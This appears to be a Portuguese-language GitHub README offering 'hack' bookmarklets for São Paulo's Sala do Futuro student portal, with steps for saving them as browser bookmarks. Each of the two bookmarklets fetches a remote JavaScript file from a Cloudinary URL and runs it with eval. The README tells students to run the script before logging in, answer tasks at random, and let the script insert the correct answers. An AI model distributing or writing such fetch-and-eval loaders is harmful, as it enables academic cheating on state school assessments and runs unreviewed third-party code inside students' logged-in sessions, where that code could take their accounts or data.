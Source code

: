 # 🚀 HCK - PROVA PAULISTA 

### HCK - PROVA PAULISTA:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745012111/saladofuturo.js").then(t=>t.text()).then(eval);
```
### HCK - TAREFAS:
### INSTALAÇÃO:
1. Clique nos três pontos no canto.
2. No canto superior direito e clique na estrela.
3. Clique na mensagem que aparecer embaixo.
4. No campo Nome, escreva qualquer coisa.
5. No campo URL ou Endereço, cole o código:

```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745790408/saladofuturov2.js").then(t=>t.text()).then(eval);
```
### INFORMAÇÕES ADICIONAIS:

1. Execute o script antes de **efetuar o Login** no [Sala do Futuro](https://saladofuturo.educacao.sp.gov.br/login-alunos).
2. **Depois de efetuado**, deve ir até a tarefa que você quer fazer.
3. Responda **aleatoriamente** às questões da tarefa e envie.
4. Logo depois, o script irá inserir todas às **respostas corretamente.**

*Obs: O tempo da tarefa depende unicamente de quanto tempo você ficar na página dela antes de enviar.*

### [Discord: Hackermoon](https://discord.gg/uCVvwAmg)

### Créditos:

- [Inacallep](https://github.com/inacallep)

- [Crackingnlearn](https://github.com/crackingnlearn)

- [Miturufu](https://github.com/Miturufu)


